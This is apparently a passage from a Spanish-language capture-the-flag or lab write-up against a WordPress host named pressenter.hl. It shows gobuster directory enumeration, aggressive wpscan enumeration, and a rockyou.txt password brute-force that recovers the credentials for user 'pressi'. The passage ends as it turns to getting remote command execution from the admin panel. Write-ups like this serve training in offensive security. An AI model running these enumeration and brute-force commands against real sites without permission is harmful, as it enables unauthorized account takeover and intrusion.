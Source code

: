 ### Descubrimiento de Archivos
```bash
gobuster dir -u http://pressenter.hl/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,txt,sh,html,js,zip,tar,gzip
```

- **Hallazgos**:
```bash
/index.php            (Status: 301) [Size: 0] [--> http://pressenter.hl/]
/wp-content           (Status: 301) [Size: 319] [--> http://pressenter.hl/wp-content/]
/wp-login.php         (Status: 200) [Size: 6569]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 320] [--> http://pressenter.hl/wp-includes/]
/readme.html          (Status: 200) [Size: 7409]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 317] [--> http://pressenter.hl/wp-admin/]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://pressenter.hl/wp-login.php?action=register]
```

### Enumeracion WordPress:
Realizaremos una enumeracion agresiva para este servicio:
```bash
wpscan --url http://pressenter.hl/ --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive
```
### Credenciales Encontradas
- Usuario: `[ pressi ]`
- Contraseña: `[ ]` # aun no sabemos la contrasena pero realizaremos un ataque de fuerza bruta:

Iniciamos el ataque:
```bash
wpscan --url http://pressenter.hl/ --passwords /usr/share/wordlists/rockyou.txt --usernames pressi
```

Resultado:
```bash
[!] Valid Combinations Found:
 | Username: pressi, Password: dumbass
```

Ahora nos loguearemos en el siguiente panel de **wordpress**
```bash
http://pressenter.hl/wp-admin/
```

Colocamos las siguientes credenciales:
```bash
username: pressi
password: dumbass
```
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que estamos dentro del panel administrativo de **wordpress** tendremos que ver la forma de derivarlo a una ejecucion remota de comandos

